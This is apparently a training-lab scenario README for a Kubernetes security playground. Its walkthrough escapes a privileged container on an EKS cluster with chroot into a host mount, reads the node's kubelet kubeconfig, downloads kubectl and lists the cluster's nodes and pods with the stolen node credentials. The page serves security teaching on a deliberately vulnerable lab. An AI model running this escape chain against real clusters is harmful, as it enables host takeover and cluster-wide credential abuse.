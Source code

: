 # Scenario: Escape to the Host System

## Prerequisites

- Vision One Container Security
- Playground One EKS Cluster
  - Running app: System Monitor

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the common misconfigurations and one of the error-prone security issues in Kubernetes, container environments, and the general security world. Giving privileges that are not required for things always makes security worse. This is especially true in the containers and Kubernetes world. You can also apply this scenario further and beyond the container to other systems and services based on the configuration and setup of the cluster environments and resources. In this scenario you will see a privileged container escape to gain access to the host system.

By the end of the scenario, you will understand and learn the following:

- Able to exploit the container and escape out of the docker container
- You will learn to test and exploit the misconfigured and privileged containers
- Learn about common misconfigurations and possible damage due to them for the containers, Kubernetes, and clusterized environments

## The story

Most of the monitoring, tracing, and debugging software requires extra privileges and capabilities to run. In this scenario, you will see a pod with extra capabilities and privileges including HostPath allowing you to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_system_monitor>`

## Goals

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access.

> ***Tip:*** Gain access to the host system and obtain the node level kubeconfig file `/var/lib/kubelet/kubeconfig`, and query the Kubernetes nodes using the obtained configuration.

### Hints

<details>
<summary>Click here</summary>

*✨ Are you still in the container?*<br>

See the mounted file systems, also look the capabilities available for the container using capsh 🙌<br>
<br>
*✨ Escaped container?*<br>

You can recon the system, some interesting places to obtain the node level configuration are `/var/lib/kubelet/kubeconfig` and I hope you know how to query Kubernetes API for nodes? 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```sh
$ capsh --print
```

```sh
$ mount
```

Now you can explore the mounted file system by navigating to the `/host-system` path

```sh
$ ls /host-system/
```

You can gain access to the host system privileges using `chroot`.

```sh
$ chroot /host-system bash
```

As you can see, now you can access all the host system resources like docker containers, configurations, etc.

Trying to use the docker client fails.

```sh
$ docker ps
```

```ascii
bash: docker: command not found
```

This does not work, since we're on a Kubernetes optimized node OS with no docker provided.

```sh
$ uname -a
```

```ascii
Linux system-monitor-6dfbdbb7d-w6mdv 5.10.184-175.749.amzn2.x86_64 #1 SMP Wed Jul 12 18:40:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```sh
$ cat /var/lib/kubelet/kubeconfig
```

```ascii
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority: /etc/kubernetes/pki/ca.crt
    server: https://BD215DBE2E4127977439D904B2AD3307.gr7.eu-central-1.eks.amazonaws.com
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
    user: kubelet
  name: kubelet
current-context: kubelet
users:
- name: kubelet
  user:
    exec:
      apiVersion: client.authentication.k8s.io/v1beta1
      command: /usr/bin/aws-iam-authenticator
      args:
        - "token"
        - "-i"
        - "playground-one-eks"
        - --region
        - "eu-central-1"
```

Sadly, there is no `kubectl` as well.

```sh
$ kubectl
```

```ascii
bash: kubectl: command not found
```

Trying to use the package manager `yum` will not solve the problem. But navigating to <https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux> will help:

```sh
$ cd
$ curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
$ chmod +x kubectl
```

Try to get the available nodes of our cluster:

```sh
$ ./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
```

Can you do more?

```sh
$ ./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get pods -A
```

```ascii
NAMESPACE           NAME                                               READY   STATUS    RESTARTS   AGE
goat                system-monitor-6dfbdbb7d-w6mdv                     1/1     Running   0          53m
kube-system         aws-load-balancer-controller-577dcc6f77-sqtfr      1/1     Running   0          92m
kube-system         aws-node-8wl6v                                     1/1     Running   0          92m
kube-system         aws-node-ksdjv                                     1/1     Running   0          92m
kube-system         cluster-autoscaler-6696cf9bff-2s52q                1/1     Running   0          92m
kube-system         coredns-6bcddfff7-hrwwl                            1/1     Running   0          92m
kube-system         coredns-6bcddfff7-kp266                            1/1     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-2w7r8                6/6     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-fdhfc                6/6     Running   0          92m
kube-system         ebs-csi-node-k77sx                                 3/3     Running   0          92m
kube-system         ebs-csi-node-vj6c7                                 3/3     Running   0          92m
kube-system         kube-proxy-62dls                                   1/1     Running   0          92m
kube-system         kube-proxy-mshz7                                   1/1     Running   0          92m
trendmicro-system   trendmicro-admission-controller-74d8d7f866-dv87r   1/1     Running   0          53m
trendmicro-system   trendmicro-oversight-controller-557df87c9-6c4dx    2/2     Running   0          69m
trendmicro-system   trendmicro-scan-manager-6ddb6f69b8-r85dk           1/1     Running   0          53m
trendmicro-system   trendmicro-scout-gkl4k                             2/2     Running   0          69m
trendmicro-system   trendmicro-scout-tz68w                             2/2     Running   0          69m
trendmicro-system   trendmicro-usage-controller-6944c5b55b-m8hgh       2/2     Running   0          53m
trendmicro-system   trendmicro-workload-operator-6cf5c98c6f-xq8bb      1/1     Running   0          69m
trivy-system        trivy-operator-57c774d7c4-hmnlk                    1/1     Running   0          53m
victims             java-goof-5878dd4dd-9lnst                          1/1     Running   0          53m
victims             web-app-854bdf944f-ddqcs                           1/1     Running   0          53m
```

```sh
$ ./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
```

🎉 Success 🎉

</details>
